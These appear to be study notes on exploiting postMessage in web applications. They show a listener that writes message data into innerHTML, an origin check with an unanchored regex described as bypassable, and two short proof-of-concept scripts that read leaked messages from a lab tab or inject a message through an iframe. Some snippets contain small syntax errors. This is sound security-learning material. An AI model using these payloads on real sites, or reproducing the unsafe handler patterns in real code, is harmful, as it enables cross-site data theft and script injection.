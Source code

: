**EXPLAIN**

- We can use it postMessage with iframe or pop-up
- To create **event listener** we will give it a name and a function to call when it used, this function will take the value from postMessage and do its actions.
    
    ```jsx
    <script type="text/javascript">
    			window.addEventListener("message", displayMessage)
    		  function displayMessage(message){ 
    					var recv "User said: message.data; " 
    					document.getElementById("type").innerHTML = recv 
    		}
    </script>
    ```
    
- `message.origin`→ will display the origin which send the request.
`message.data`→ will display the sent value.
- We can use the following like to check and validate but the check have an issue and could be
bypassed.

```jsx
window.addEventListener("message", displayMessage) 
function displayMessage(message){ 
	if(/http:\/\/trusteddomain.vuln.labs/.test(message.origin)){ 
		var recV = "User said: "+ message.data; 
		document.getElementById("type").innerHTML = recv 
	}
}
```

**POC**

```jsx
<script>
		window.addEventListener("message", print) 
		function print(event){
				document.write(JSON.stringify(event.data))
		}
		window.open("<vulnerable-tab>(i.e http://pt1-75d4e497-db84ad23.libcurl.so/key/1)")
</script>
```

```jsx
<script>
	function hack(){
		document.getElementById("iframe").contentWindow.postMessage('user=victim&id=0','*');
	}
</script>
<iframe id="iframe" onload="hack()" src="<Vulnerable-tab>(i.e http://pt1-77adaa63-c2c6431d.libcurl.so/)">
```
